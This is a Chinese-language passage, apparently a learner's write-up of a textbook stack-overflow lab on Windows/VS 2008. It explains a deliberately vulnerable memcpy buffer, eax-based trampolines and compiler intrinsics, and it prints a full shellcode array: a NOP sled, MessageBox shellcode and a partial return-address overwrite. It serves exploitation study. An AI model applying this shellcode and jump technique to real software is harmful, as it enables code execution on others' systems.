我们使用`0x1eb4`作为覆盖值。

首先要说明的是，上面的测试代码来自原作者，他让`test`函数返回`tt`，这样可以保证在ret时eax指向缓冲区首，从而使得我们后面可以去寻找一个eax的跳板来实现跳转。但是其实test函数完全可以写成：

```c
void test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
}
```

因为`memcpy`函数对返回值的定义如下：

> The memcpy() function returns the original value of dst.

也就是说memcpy返回后，eax就已经指向缓冲区首，不必通过`return tt`来实现。当然，作者这样做也有道理。如果仅仅按照我们上面所列的环境条件和build选项去生成漏洞程序，VS 2008会把memcpy函数优化成为test函数内部的一个复制循环结构。这是因为其优化选项默认启用内部函数：

![Bildschirmfoto 2018-11-01 um 9.52.59 AM.png]({{ site.url }}/images/0day/BD842D6847ADCBAD0B8B070CD41C76CE.png)

从而导致memcpy被优化为：

![Bildschirmfoto 2018-11-01 um 9.53.20 AM.png]({{ site.url }}/images/0day/4AC12A2F846DFF9FA70C51BE38ABE592.png)

可以看到，这样一来就没eax什么事了。所以如果希望test不返回tt就实现目的，需要禁用内部函数。

后面shellcode排布本来应该是非常简单的，但是一个小问题导致我一直没有成功。仔细检查后发现还是很有意思的：

一开始我的shellcode如下：

```c
char shellcode[] = 
// 92 nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90"
// 168 messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
// 2 jmp eax
"\x8e\x14";
```
